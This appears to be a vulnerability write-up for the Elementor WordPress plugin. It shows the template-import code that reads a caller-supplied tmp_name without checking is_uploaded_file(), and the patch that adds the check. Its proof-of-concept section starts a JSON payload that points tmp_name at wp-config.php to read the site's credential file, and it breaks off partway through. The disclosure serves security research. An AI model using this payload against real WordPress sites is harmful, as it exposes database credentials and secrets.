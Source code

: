 ## 🎯 Vulnerability Details

### Location

The vulnerability exists in a **single file** at a **single line**:

```
elementor/includes/template-library/classes/class-import-images.php
Line 115 (v3.28.3)
```

### Vulnerable Code (v3.28.3)

```php
if ( isset( $attachment['tmp_name'] ) ) {
    // Used when called to import a directly-uploaded file.
    $filename = $attachment['name'];
    $file_content = Utils::file_get_contents( $attachment['tmp_name'] );  // ❌ NO VALIDATION!
}
```

**Problem**: The `tmp_name` parameter is **NOT validated** with `is_uploaded_file()`, allowing an attacker to specify **arbitrary file paths**.

### Patched Code (v3.30.3)

```php
if ( isset( $attachment['tmp_name'] ) ) {
    // Used when called to import a directly-uploaded file.
    $filename = $attachment['name'];
    $file_content = false;
    // security validation in case the tmp_name has been tampered with
    if ( is_uploaded_file( $attachment['tmp_name'] ) ) {  // ✅ VALIDATION ADDED!
        $file_content = Utils::file_get_contents( $attachment['tmp_name'] );
    }
}
```

**Fix**: The patch adds `is_uploaded_file()` validation to ensure `tmp_name` refers to a legitimate HTTP POST uploaded file.

---

## 💣 Proof of Concept

### JSON Payload

```json
{
  "content": [{
    "id": "s1",
    "elType": "section",
    "settings": [],
    "elements": [{
      "id": "c1",
      "elType": "column",
      "settings": {"_column_size": 100},
      "elements": [{
        "id": "w1",
        "elType": "widget",
        "widgetType": "image",
        "settings": {
          "image": {
            "url": "http://x.com/x.jpg",
            "id": 1,
            "tmp_name": "/var/www/html/wp-config.php",
```